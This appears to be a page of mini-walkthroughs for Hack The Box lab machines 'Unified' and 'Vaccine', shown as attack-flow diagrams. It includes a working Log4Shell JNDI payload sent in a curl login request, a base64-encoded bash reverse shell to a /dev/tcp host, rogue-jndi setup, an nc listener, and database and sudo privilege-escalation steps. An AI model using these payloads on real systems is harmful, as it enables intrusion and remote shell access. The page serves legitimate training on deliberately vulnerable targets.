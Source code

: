 
[Unified](https://app.hackthebox.com/starting-point/#unified)
```mermaid
graph LR
  A[nmap] --> B[8443 <br/> Unifi Network] 
  B --> D["log4j vulnerable <br/> CVE-2021-44228"]
  D --> E["param. remember <br/> Post /api/login"]
  E --> F["test with <br/> ${jndi:ldap://{IP}/whatever}"]
  F --> G["check for LDAP traffic <br/> tcpdump port 389"]
  A --> C[ssh]
  
  subgraph Exploit log4j
  a[Exploit log4j] --> b["install openjdk <br/> install Maven"] --> d
  a --> c[" git clone <br/> https://github.com/ <br/> veracode-research/rogue-jndi"] --> d["build <br> mvn package"] 
  a --> e[prepare bash shell] --> f["encode w. base 64"] 
  f --> g["Run the rogue server"]
  d --> g
  a --> h["start a listener <br/> nc -lvp 4444"] --> m["receive a conn. <br/> script /dev/null -c bash"] 
  g --> l["send the exploit:<br/>''${jndi:ldap://IP:1389/o=tomcat}''"] --> m
  end
  
  subgraph Priv. Escalation
  1["Look for <br/> mongodb port"] --> 2["connect to default <br/> database ace"] --> 3["look for <br/> admin collection"] 
  3 --> 4["change admin password"]
  end

  ```

Useful commands
```bash 
echo 'bash -c bash -i >&/dev/tcp/{IP}/{port} 0>&1' | base64



java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,BASE64 STRING HERE}|{base64,-d}|{bash,-i}" \
--hostname "{YOUR TUN0 IP ADDRESS}"



curl 'https://10.129.12.182:8443/api/login' \
-H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0' \
-H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' \
--compressed \
-H 'Referer: https://10.129.12.182:8443/manage/account/login?redirect=%2Fmanage' \
-H 'Content-Type: application/json; charset=utf-8' \
-H 'Origin: https://10.129.12.182:8443' \
-H 'Connection: keep-alive' \
--data-raw '{"username":"test","password":"test","remember":"${jndi:ldap://10.10.14.118:1389/o=tomcat}","strict":true}' \
--insecure

mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```


<script type="text/javascript"
  src="https://cdn.jsdelivr.net/npm/mermaid/dist/mermaid.min.js">
</script>

<script>
    mermaid.initialize({
        startOnLoad: true,
 	      theme: 'dark'
<!-- 	'themeVariables': { 'primaryColor': '#00FFFF00'}  -->
    });
</script>

## Mini-walkthroughs for Hack The Box! 

[Vaccine](https://app.hackthebox.com/starting-point/#vaccine)

<div class="mermaid">
graph LR
    A[nmap] --> B[FTP]
    A --> C[http]
    A --> D[ssh]
    B --> E[get zip] --> F[zip2john] --> G[john] --> H([admin/pass]) 
    C --> I[login <br/> admin/pass] --> J["sqlmap --os-shell <br/> dashboard?search"] --> K[bash reverse shell] --> L["look in <br/> /var/www/html"] --> M([postgres/pass])
    D --> N[postgres/pass] --> P["sudo -l"] --> Q["sudo vi"] --> R[GTFOBins] --> S(["root ⬛"])
</div>

